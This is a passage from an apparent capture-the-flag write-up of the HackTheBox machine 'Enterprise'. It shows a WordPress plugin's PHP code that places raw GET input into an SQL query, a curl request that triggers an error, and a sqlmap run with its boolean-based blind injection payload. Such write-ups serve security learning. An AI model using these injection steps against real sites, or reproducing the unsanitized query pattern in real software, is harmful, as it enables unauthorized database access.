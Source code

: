     78: YAYAYAYAY. 
    ...[snip]...
    

66-68 as Passwords is interesting. But not much else I can do there at this
point.

`lcars_db.php` is very similar:

    
    
    <?php
    include "/var/www/html/wp-config.php";
    $db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
    // Test the connection:
    if (mysqli_connect_errno()){
        // Connection Error
        exit("Couldn't connect to the database: ".mysqli_connect_error());
    }
    
    // test to retireve an ID
    if (isset($_GET['query'])){
        $query = $_GET['query'];
        $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
        $result = $db->query($sql);
        echo $result;
    } else {
        echo "Failed to read query";
    }
    
    ?>
    

But it doesn’t cast the input as an int! It also doesn’t do conversion with
the result of the query, just tried to echo it. In fact, this leads the page
to break:

    
    
    oxdf@parrot$ curl http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1
    <br />
    <b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b>
    

Where `lcars_dbpost.php` returns “Hello world!”, this errors. That’s because
it’s taking the result of the query, which isn’t a string but an object, and
trying to pass it to `echo`, which expects a string.

### SQL Injection

#### sqlmap

This is a rather complicated SQL injection, so I’ll let `sqlmap` do the heavy
lifting:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch
    ...[snip]...
    GET parameter 'query' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 297 HTTP(s) requests:
    ---
    Parameter: query (GET)
        Type: boolean-based blind
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: query=(SELECT (CASE WHEN (3821=3821) THEN 1 ELSE (SELECT 3759 UNION SELECT 4044) END))
    